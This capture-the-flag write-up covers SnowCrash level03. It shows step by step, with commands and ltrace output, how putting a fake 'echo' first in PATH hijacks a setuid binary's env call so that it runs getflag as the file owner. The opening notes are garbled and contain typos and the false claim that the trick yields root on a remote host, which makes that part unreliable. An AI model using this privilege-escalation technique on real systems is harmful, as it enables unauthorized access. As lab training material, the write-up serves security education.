 # loging into level03 first 

	su: Authentication failure
	level03@SnowCrash:~$ su level03
	Password: kooda2puivaav1idi4f57q8iq

# finding a executable file 

trying to execute it and a message just appear Exploit me

using ltrace we are going to find system("/usr/bin/env echo exploit me : exploit me 

means that we can  to manipulate $PATH variable” to gain root access of a remote host machine 

	which getflag "/bin/getflag"

	vim echo 
	chmod 777 eho 
	echo $PATH 
	export PATH=/~$PATH
	pwd
	export PATH=//home/user/level03:$PATH
	./level03

PATH is an environmental variable in Linux and Unix-like operating systems which specifies all bin and sbin directories that hold all executable programs are stored.
hen the user run any command on the terminal, its request to the shell to search for executable files with the help of PATH Variable in response to commands executed by a user. The superuser also usually has /sbin and /usr/sbin entries for easily executing system administration commands.

It is very simple to view the Path of the relevant user with help of echo command.



ß






 LEVEL 03

## Vulnerability & exploit

Env invocation by a privileged user -> Privilege escalation by providing replacement to built-in command

## External resources

ltrace

## Initial Context

In our home directory, we have an executable with suid/guid:

```
level03@SnowCrash:~$ ls -l level03
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03
Exploit me
```

## Solving the challenge

Let's try to exploit the binary as instructed, by using the ltrace debugger:

```
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                               = 2003
geteuid()                                                               = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                     = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                     = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                  = 0
+++ exited (status 0) +++
```

As discussed [here](https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code), we see that the program does a system call to run echo using /usr/bin/env.
The man (`info coreutils 'env invocation'`) tells us that:

> The first operand that does not contain the character '=' specifies the program to invoke; it is searched for according to the 'PATH' environment variable.
> and that
> Modifications to 'PATH' take effect prior to searching for COMMAND.

It even gives us a hacking tip:

> Run `foo' with the environment containing `LOGNAME=rms', `EDITOR=emacs', and `PATH=.:/gnubin:/hacks', and guarantees that `foo' was found in the file system rather than as a shell built-in.
> env foo

To recap: the program will start by setting the environment before running the echo command.

The bash man here provides some useful information:

> If the name is neither a shell function nor a builtin, and contains no slashes, bash searches each element
> of the PATH for a directory containing an executable file by that name.

So we have to create our own echo executable file, and make sure that it's found before the original echo executable.
Since the file has the suid bit set, all commands will be run with the rights of the file owner (flag03) - so we'd like to trick the program into running `getflag` instead of `echo`.

```
level03@SnowCrash:~$ echo getflag > /tmp/echo && chmod +x /tmp/echo
```

Then, we instruct bash to look for the executable in /tmp first by adding /tmp at the beginning of the \$PATH environment variable:

```
level03@SnowCrash:~$ export PATH=/tmp:$PATH && echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Finally, run the executable to get the token for level04:

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXXXX
```
